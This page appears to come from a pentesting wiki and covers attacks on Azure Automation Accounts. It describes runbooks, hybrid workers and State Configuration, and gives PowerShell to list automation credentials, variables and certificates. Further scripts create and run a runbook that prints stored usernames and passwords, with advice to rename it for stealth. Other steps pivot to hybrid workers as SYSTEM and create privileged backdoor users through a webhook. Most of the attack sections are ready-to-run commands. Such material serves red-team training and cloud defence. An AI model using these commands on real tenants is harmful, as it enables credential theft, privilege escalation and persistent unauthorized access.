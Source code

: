 # Az - Automation Account

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation delivers a cloud-based automation, operating system updates, and configuration service that supports consistent management across your Azure and non-Azure environments. It includes process automation, configuration management, update management, shared capabilities, and heterogeneous features.

These are like "**scheduled tasks**" in Azure that will let you execute things (actions or even scripts) to **manage**, check and configure the **Azure environment**.

### Run As Account

When **Run as Account** is used, it creates an Azure AD **application** with self-signed certificate, creates a **service principal** and assigns the **Contributor** role for the account in the **current subscription** (a lot of privileges).\
Microsoft recommends using a **Managed Identity** for Automation Account.

> [!WARNING]
> This will be **removed on September 30, 2023 and changed for Managed Identities.**

## Runbooks & Jobs

**Runbooks** allow you to **execute arbitrary PowerShell** code. This could be **abused by an attacker** to steal the permissions of the **attached principal** (if any).\
In the **code** of **Runbooks** you could also find **sensitive info** (such as creds).

If you can **read** the **jobs**, do it as they **contain** the **output** of the run (potential **sensitive info**).

Go to `Automation Accounts` --> `<Select Automation Account>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`

### Hybrid Worker

A Runbook can be run in a **container inside Azure** or in a **Hybrid Worker** (non-azure machine).\
The **Log Analytics Agent** is deployed on the VM to register it as a hybrid worker.\
The hybrid worker jobs run as **SYSTEM** on Windows and **nxautomation** account on Linux.\
Each Hybrid Worker is registered in a **Hybrid Worker Group**.

Therefore, if you can choose to run a **Runbook** in a **Windows Hybrid Worker**, you will execute **arbitrary commands** inside an external machine as **System** (nice pivot technique).

## Compromise State Configuration (SC)

[From the docs:](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation **State Configuration** is an Azure configuration management service that allows you to write, manage, and compile PowerShell Desired State Configuration (DSC) [configurations](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) for nodes in any cloud or on-premises datacenter. The service also imports [DSC Resources](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources), and assigns configurations to target nodes, all in the cloud. You can access Azure Automation State Configuration in the Azure portal by selecting **State configuration (DSC)** under **Configuration Management**.

**Sensitive information** could be found in these configurations.

### RCE

It's possible to abuse SC to run arbitrary scripts in the managed machines.

{{#ref}}
az-state-configuration-rce.md
{{#endref}}

## Enumeration

```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```

### Create a Runbook

```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```

### Exfiltrate Creds & Variables defined in an Automation Account using a Run Book

```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```

> [!NOTE]
> You could do the same thing modifying an existing Run Book, and from the web console.

### Steps for Setting Up an Automated Highly Privileged User Creation

#### 1. Initialize an Automation Account

- **Action Required:** Create a new Automation Account.
- **Specific Setting:** Ensure "Create Azure Run As account" is enabled.

#### 2. Import and Set Up Runbook

- **Source:** Download the sample runbook from [MicroBurst GitHub Repository](https://github.com/NetSPI/MicroBurst).
- **Actions Required:**
  - Import the runbook into the Automation Account.
  - Publish the runbook to make it executable.
  - Attach a webhook to the runbook, enabling external triggers.

#### 3. Configure AzureAD Module

- **Action Required:** Add the AzureAD module to the Automation Account.
- **Additional Step:** Ensure all Azure Automation Modules are updated to their latest versions.

#### 4. Permission Assignment

- **Roles to Assign:**
  - User Administrator
  - Subscription Owner
- **Target:** Assign these roles to the Automation Account for necessary privileges.

#### 5. Awareness of Potential Access Loss

- **Note:** Be aware that configuring such automation might lead to losing control over the subscription.

#### 6. Trigger User Creation

- Trigger the webhook to create a new user by sending a POST request.
- Use the PowerShell script provided, ensuring to replace the `$uri` with your actual webhook URL and updating the `$AccountInfo` with the desired username and password.

```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```

## References

- [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
- [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
- [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

{{#include ../../../../banners/hacktricks-training.md}}




